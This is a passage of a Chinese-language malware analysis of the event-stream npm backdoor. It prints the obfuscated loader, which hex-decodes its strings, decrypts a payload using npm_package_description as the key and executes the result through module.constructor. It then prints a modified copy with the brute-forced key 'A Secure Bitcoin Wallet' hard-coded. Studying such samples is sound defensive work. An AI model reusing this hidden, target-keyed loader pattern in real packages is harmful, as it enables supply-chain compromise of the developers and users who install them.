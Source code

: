 [![](https://p1.ssl.qhimg.com/t010e23fb0c72d39bf1.png)](https://p1.ssl.qhimg.com/t010e23fb0c72d39bf1.png)

后面的程序内容都是通过这串数组去执行的。继续分析到后面发现无论我怎样log都不输出了，说明后面的代码根本没有走，于是我在代码分支之前把后面的代码按照上面的方式先翻译过来。

```
console.log(`var u = require($`{`e(n[2])`}`)[$`{`e(n[6])`}`]($`{`e(n[5])`}``)
console.log(`a = u.update($`{`n[0]`}`)[$`{`e(n[8])`}`]($`{`e(n[9])`}``)
console.log(`a += u.final($`{`e(n[9])`}`)`)
console.log(`var f = new module.constructor();`)
console.log(`(f.paths = module.paths), f[$`{`e(n[7])`}`](a, ""), f.exports($`{`n[1]`}`)`)

if (!o) return;
var u = require(e(n[2]))[e(n[6])](e(n[5]), o),
  a = u.update(n[0], e(n[8]), e(n[9]));
a += u.final(e(n[9]));
var f = new module.constructor();
(f.paths = module.paths), f[e(n[7])](a, ""), f.exports(n[1]);
```

输出如下：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t013ba5de0a4e99c0eb.png)

这样就好理解多了，下面有一个解密操作，解密的密钥是o，刚才提到了，o是环境变量npm_package_description，因此后门作者是打算有针对性的去利用这个后门。只有密钥（npmpackagedescription）正确才能继续运行下面的代码。

在Github上[I don’t know what to say](https://github.com/dominictarr/event-stream/issues/116)这个讨论中，最终@maths22大神下载了所有的npm包描述，穷举了密钥。密钥为A Secure Bitcoin Wallet。

[![](https://p0.ssl.qhimg.com/t01245bb777cfc46f1a.png)](https://p0.ssl.qhimg.com/t01245bb777cfc46f1a.png)

@maths22大神还放出了解密源码

[![](https://p0.ssl.qhimg.com/t01075de11fe21297b0.png)](https://p0.ssl.qhimg.com/t01075de11fe21297b0.png)

直接把o设置为正确密钥，去解密加密字符串。

```
!(function() `{`
  try `{`
    // 编码函数，下面频繁调用编码函数去解字符串拼接
    function e(r) `{`
      return Buffer.from(r, "hex").toString();
    `}`

    var n = require(e("2e2f746573742f64617461")),
      o = process[e(n[3])][e(n[4])];
    o='A Secure Bitcoin Wallet';
    if (!o) return;
    var u = require(e(n[2]))[e(n[6])](e(n[5]), o),
      a = u.update(n[0], e(n[8]), e(n[9]));
    a += u.final(e(n[9]));
    console.log(`解密字符串为：$`{`a`}``)
    var f = new module.constructor();
    (f.paths = module.paths), f[e(n[7])](a, ""), f.exports(n[1]);
  `}` catch (r) `{``}`
`}`)();
```
